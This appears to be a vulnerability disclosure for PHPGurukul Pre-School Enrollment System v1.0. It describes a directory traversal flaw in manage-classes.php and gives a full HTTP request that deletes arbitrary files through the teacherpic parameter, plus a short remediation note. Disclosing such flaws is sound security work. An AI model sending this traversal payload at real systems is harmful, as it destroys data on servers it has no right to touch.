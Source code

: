 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-2

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with profilepic in the manage-classes.php file   
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250423150403.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable function in the manage-classes.php article, manage-classes-delete
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/3.png)
  
   Intercept the data packet and find the manage-classes.php?action=delete data packet. No problem parameter teacherpic was found.
   
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/4.png)

   Change the tpic parameter in the data packet to the problematic parameter teacherpic 
   Transformed into attack payload  

    GET /Pre-School-Enrollment-System-PHP/preschool/admin/manage-classes.php?action=delete&&cid=6&&teacherpic=../../../../bbb.txt HTTP/1.1
    Host: localhost
    Sec-Fetch-Site: same-origin
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-Mode: navigate
    Accept-Encoding: gzip, deflate, br, zstd
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    Accept-Language: zh-CN,zh;q=0.9
    Upgrade-Insecure-Requests: 1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/manage-classes.php
    Sec-Fetch-Dest: document
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Windows"

   Create bbb.txt test file in  D:\phpstudy_pro\WWW
       ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/微信截图_20250423153628.png)   

   Send payload,
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/6.png)
   bbb.txt file has been deleted   
   ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/5.png)    
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
